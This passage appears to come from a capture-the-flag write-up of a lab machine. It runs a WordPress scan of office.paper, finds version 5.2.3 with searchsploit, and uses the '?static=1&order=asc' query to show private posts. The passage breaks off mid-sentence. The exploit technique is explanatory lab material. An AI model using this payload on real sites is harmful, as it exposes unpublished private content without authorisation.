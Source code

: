 ```
[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
 |  - X-Powered-By: PHP/7.2.24
 |  - X-Backend-Server: office.paper
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://office.paper/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
```

> Version 5.2.3 is vulnerable!

#### Vulnerability

Searching for vulnerabilities of the WordPress version I found one which shows hidden posts.

```
┌──(kali㉿kali)-[~]
└─$ searchsploit WordPress 5.2.3                               
-------------------------------------------------------------------------------------------------------
 Exploit Title                                                           |  Path
-------------------------------------------------------------------------------------------------------
WordPress Core 5.2.3 - Cross-Site Host Modification                      | php/webapps/47361.pl
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts  | multiple/webapps/47690.md
```

If we take a look into the vulnerability...

```
So far we know that adding `?static=1` to a wordpress URL should leak its secret content

Here are a few ways to manipulate the returned entries:

- `order` with `asc` or `desc`
- `orderby`
- `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format


In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:
```

#### Execution

On `http://office.paper/?static=1` an article named `test` appears.  There is one text that stands out:
